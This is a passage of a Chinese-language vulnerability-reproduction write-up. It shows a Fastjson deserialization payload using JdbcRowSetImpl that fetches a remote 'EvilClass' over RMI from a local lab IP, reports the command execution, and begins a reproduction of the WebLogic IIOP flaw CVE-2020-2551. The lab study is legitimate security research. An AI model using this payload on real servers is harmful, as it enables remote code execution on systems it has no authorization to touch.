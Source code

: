 8.执行payload

```
`{`
    "b":`{`
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://192.168.65.2:9999/EvilClass",
        "autoCommit":true
    `}`
`}`
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://raw.githubusercontent.com/mstxq17/figuredbed/master/imgimage-20200408201159232.png)

可以看到成功执行了命令,可以看到`marshalsec`的作用类似个中转器。

这里的漏洞环境是`JDK1.8_8u102` 可以利用:

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://raw.githubusercontent.com/mstxq17/figuredbed/master/imgimage-20200408203019174.png)

但是如果漏洞环境是其他的jdk版本，则相应有一些限制需要绕过了，后面我们细讲jndi注入的时候在讨论。

[如何绕过高版本JDK的限制进行JNDI注入利用](https://kingx.me/Restrictions-and-Bypass-of-JNDI-Manipulations-RCE.html)

ps.

还有个1.2.48 bypass autoType检查的rce 的环境,读者感兴趣可以自行搭建下。

[Fastjson 1.2.47 远程命令执行漏洞](https://vulhub.org/#/environments/fastjson/1.2.47-rce/)

### <a class="reference-link" name="0x6.2%20weblogic%20cve%202551%20%E5%8F%8D%E5%BA%8F%E5%88%97%E6%BC%8F%E6%B4%9E"></a>0x6.2 weblogic cve 2551 反序列漏洞

笔者头铁敢选择这个到处是坑的漏洞复现，主要还是站在各位师傅的肩膀上，略微记录下自己的复现过程。

先简单描述下这个漏洞的情况:

> 2020年1月15日, Oracle官方发布了CVE-2020-2551的漏洞通告，漏洞等级为高危，CVVS评分为9.8分，漏洞利用难度低。影响范围为10.3.6.0.0, 12.1.3.0.0, 12.2.1.3.0, 12.2.1.4.0。

了解下一些相关知识:

> 1.7001 是个动态解析端口(不同协议不同处理)
2.2551漏洞出在IIOP协议上,该协议默认开启
3.不同的weblogic版本会导致利用不同
根据师傅的测试可以得知:
成功的版本为:
10.3.6.0.0 12.1.3.0.0 (低版本)
12.2.1.3.0 12.2.1.4.0 (高版本)

其实这个漏洞真的相当多坑，各种网络环境问题，由此衍生了许多回显方案的提出，感觉挺有研究价值的一个洞，几乎应用了各种各样的java反序列利用漏洞技巧,这里我们还是初探为主，搭建环境先Run一下，找下感觉。

1.编译POC
